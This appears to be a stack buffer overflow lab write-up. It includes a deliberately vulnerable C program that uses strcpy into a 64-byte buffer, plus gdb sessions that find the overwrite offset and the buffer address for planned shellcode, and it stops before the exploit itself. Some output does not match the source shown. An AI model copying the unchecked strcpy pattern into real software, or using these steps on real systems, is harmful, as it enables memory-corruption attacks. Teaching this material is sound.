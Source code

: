 # BoF intro

## Introduction

## Goal

## Source

File: `~/challenges/challenge12/challenge12.c`

```c
#include <stdio.h>
#include <stdlib.h>
#include <crypt.h>
#include <string.h>

// hash of: "ourteacheristehbest"
const char *adminHash = "$6$saaaaalty$cjw9qyAKmchl7kQMJxE5c1mHN0cXxfQNjs4EhcyULLndQR1wXslGCaZrJj5xRRBeflfvmpoIVv6Vs7ZOQwhcx.";


int checkPassword(char *password) {
	char *hash;

	// $6$ is SHA256
	hash = crypt(password, "$6$saaaaalty");

	if (strcmp(hash, adminHash) == 0) {
		return 1;
	} else {
		return 0;
	}
}


void handleData(char *username, char *password) {
	int isAdmin = 0;
	char firstname[64];

	isAdmin = checkPassword(password);
	strcpy(firstname, username);

	if(isAdmin > 0) {
		printf("You ARE admin!\nBe the force with you.\n");
	} else {
		printf("You are not admin.\nLame.\n");
	}
}


int main(int argc, char **argv) {
	if (argc != 3) {
		printf("Call: %s <name> <password>\n", argv[0]);
		exit(0);
	}

	handleData(argv[1], argv[2]);
}
```

You can compile it by calling `make` in the folder `~/challenges/challenge12`


## Analysis

```
root@hlUbuntu64:~/challenges/challenge12# file challenge12
challenge12: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9397ca5655aeb327386bb0d572717f9906978301, not stripped
```

## Normal behaviour


## Find offset

You can crash the program by giving longer and longer strings as first argument.

Depending on the amount of overflow, one of these conditions can appear:
- Not enough overflow: Program exits cleanly, `isAdmin` is 0x0
- Nearly enough overflow: Program exists cleanly, `isAdmin` is overflowed (has 0x41's)
- Overflow into SBP: Program crashes, but with `RIP` = 0x400833 or similar (no 0x41's)
- Overflow into SIP: Program crashes, with `RIP` = 0x0000004141 (what we want)
- Overflow too far into `SIP`: Program crashes, with `RIP` = 0x4007d3 or similar (again no 0x41's)

### Nearly enough overflow

Offset: 70

```
(gdb) run `python -c 'print "A" * 70 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 70 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x4242
[Inferior 1 (process 504) exited normally]
```

### Overflow into SBP

Offset: 74

```
(gdb) run `python -c 'print "A" * 74 + "BBBB"'` test
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 74 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x42424141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400832 in main ()
```

### Overflow into SIP

Offset: 82

```
(gdb) run `python -c 'print "A" * 82 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 82 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000000000004242 in ?? ()
```

Offset: 86
```
(gdb) run `python -c 'print "A" * 86 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 86 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x0000424242424141 in ?? ()
```

Therefore, offset is 84 bytes.


### Overflow too far into SIP

Offset: 88

```
(gdb) run `python -c 'print "A" * 88 + "BBBB"'` test
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python -c 'print "A" * 88 + "BBBB"'` test
Hello cmd-AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB.
You are admin!
isAdmin: 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007d3 in handleData ()
```


## Find buffer base address

Disassemble the main function:
```
(gdb) disas main
Dump of assembler code for function main:
   0x00000000004007d4 <+0>:     push   %rbp
   0x00000000004007d5 <+1>:     mov    %rsp,%rbp
   0x00000000004007d8 <+4>:     sub    $0x10,%rsp
   0x00000000004007dc <+8>:     mov    %edi,-0x4(%rbp)
   0x00000000004007df <+11>:    mov    %rsi,-0x10(%rbp)
   0x00000000004007e3 <+15>:    cmpl   $0x3,-0x4(%rbp)
   0x00000000004007e7 <+19>:    je     0x40080c <main+56>
   0x00000000004007e9 <+21>:    mov    -0x10(%rbp),%rax
   0x00000000004007ed <+25>:    mov    (%rax),%rax
   0x00000000004007f0 <+28>:    mov    %rax,%rsi
   0x00000000004007f3 <+31>:    mov    $0x40099c,%edi
   0x00000000004007f8 <+36>:    mov    $0x0,%eax
   0x00000000004007fd <+41>:    callq  0x4005a0 <printf@plt>
   0x0000000000400802 <+46>:    mov    $0x0,%edi
   0x0000000000400807 <+51>:    callq  0x4005f0 <exit@plt>
   0x000000000040080c <+56>:    mov    -0x10(%rbp),%rax
   0x0000000000400810 <+60>:    add    $0x10,%rax
   0x0000000000400814 <+64>:    mov    (%rax),%rdx
   0x0000000000400817 <+67>:    mov    -0x10(%rbp),%rax
   0x000000000040081b <+71>:    add    $0x8,%rax
   0x000000000040081f <+75>:    mov    (%rax),%rax
   0x0000000000400822 <+78>:    mov    %rdx,%rsi
   0x0000000000400825 <+81>:    mov    %rax,%rdi
   0x0000000000400828 <+84>:    callq  0x40074f <handleData>
   0x000000000040082d <+89>:    mov    $0x0,%eax
   0x0000000000400832 <+94>:    leaveq
   0x0000000000400833 <+95>:    retq
End of assembler dump.
```

Lets break before calling `handleData`:
```
(gdb) b *0x0000000000400828
Breakpoint 1 at 0x400828
```

And run it with some dummy data:

```
(gdb) run AAAAAAAA BBBBBBBB
Starting program: /root/challenges/challenge12/challenge12 AAAAAAAA BBBBBBBB

Breakpoint 1, 0x0000000000400828 in main ()
```

`handleData(char *username, char *password)` has two arguments. Remember that in x64 function
call convention, the first argument for the function call is stored in `RDI`,
the second in `RDX`. We can check this:
```
(gdb) x/4x $rdi
0x7fffffffe87b: 0x41414141      0x41414141      0x42424200      0x42424242
(gdb) x/4x $rdx
0x7fffffffe884: 0x42424242      0x42424242      0x52455400      0x74783d4d
```

Therefore, the start of the buffer, where our future shellcode will be, is `0x7fffffffe87b`.




## Create an exploit
